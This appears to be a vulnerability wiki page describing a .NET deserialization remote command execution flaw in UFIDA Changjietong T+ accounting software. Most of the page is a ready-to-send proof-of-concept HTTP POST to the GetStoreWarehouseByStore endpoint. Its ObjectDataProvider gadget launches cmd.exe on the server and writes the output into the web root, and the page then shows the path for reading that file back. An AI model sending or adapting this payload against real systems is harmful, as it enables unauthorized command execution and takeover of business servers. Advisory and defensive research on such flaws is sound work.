 # UFIDA Changjietong T+ GetStoreWarehouseByStore Remote Command Execution Vulnerability

## Vulnerability Description

UFIDA Changjietong T+ GetStoreWarehouseByStore has a .net deserialization vulnerability, resulting in remote command execution and controlling the server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Changjietong T+</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-7407771.png)

Verify POC

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687318403430-18bcefb9-29de-4d0f-8016-21cc7b6c80cd.png)

```plain
/tplus/xxx.txt
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1687318446387-1d04ad6c-6b7c-4f0f-9d83-eef3642b8a1e.png)